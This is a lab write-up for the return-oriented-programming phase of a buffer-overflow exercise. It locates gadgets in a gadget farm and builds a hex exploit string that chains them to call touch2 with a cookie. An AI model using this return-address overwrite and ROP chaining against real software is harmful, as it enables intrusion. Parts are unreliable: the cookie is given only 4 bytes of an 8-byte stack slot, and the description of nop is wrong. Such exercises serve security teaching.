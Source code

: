 # Return-oriented attack
## Level 2
Here we are going to repeat the attack of phase 2, that is, calling touch2 with cookie as the argument. However, this time we will use return-oriented attack instead of code injectio.
Here can be an attack strategy.

```
ADDRESS OF TOUCH2
COOKIE
OVERWRITE RETURN ADDRESS TO GADGET
PADDING
```

where we have

```
GADGET:
popq %rdi
retq
```

This way, when we first return from `getbuf`, we will call the gadget. The gadget will pop the next 8 bytes, which is the value of `cookie`, and store it into register `%rdi`. When the program returns from the call to the gadget, it will call `touch2` with `cookie` as the argument, as desired.

According to the table in the lab instruction, the gadget should have byte code `5f c3`. However, after searching through the gadget farm, there isn't even `5f`. So, we need to take a more indirect strategy: instead of popping `cookie` directly into `%rdi`, we will first pop it into another register and then move the content of that register into `%rdi`. Because cookie only has 4 bytes, we can use `movl` instead of `movq`. So, our goal now is to look for byte code in the gadget farm that stands for

```asm
GADGET1:
popq R
retq

GADGET2:
movl R, %edi
retq
```
that gadget1 pops the stack and stores the value into register `R`, and then gadget2 moves the content from register `R` into `%edi` and then returns.

After looking through the gadget farm, the only candidate of `R` we found is `%rax`. Below are the code snippets that contain the two desired gadgets:

```asm
0000000000401a0d <setval_128>:
  401a0d:	c7 07 58 90 90 c3    	movl   $0xc3909058,(%rdi)
  401a13:	c3                   	retq   

00000000004019fa <getval_167>:
  4019fa:	b8 48 89 c7 c3       	mov    $0xc3c78948,%eax
  4019ff:	c3                   	retq   
```

Note that `58 90 90 c3` is

```asm
popq %rax
nop
nop
ret
```

which is equivalent with

```asm
popq %raw
ret
```

because nop simply increments the instruction pointer by 1, thus skipping the next instruction. It does exactly what we want for gadget 1.

As for `89 c7 c3`, it serves perfectly the function of gadget 2:

```asm
movl %eax, %edi
ret
```

Based on the assembly code above, it is easy to derive that the address of gadget 1 is `401a0d + 2 = 401a0f`, while the address of gadget 2 is `4019fa + 2 = 4019fc`.

We will now make changes to the stack layout accordingly. Here is a reasonable new layout:

```
ADDRESS OF TOUCH2
ADDRESS OF GADGET 2 -> movl %eax, %edi; ret
COOKIE
OVERWRITE RETURN ADDRESS WITH THE ADDRESS OF GADGET 1 -> popq %rax; ret
PADDING
```

whose byte code representation will be

```
df 18 40 00 00 00 00 00
fc 19 40 00 00 00 00 00
6d 9f ca 55
0f 1a 40 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```

Thus, the exploit string will be:

```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 0f 1a 40 00 00 00 00 00 6d 9f ca 55 fc 19 40 00 00 00 00 00 df 18 40 00 00 00 00 00
```
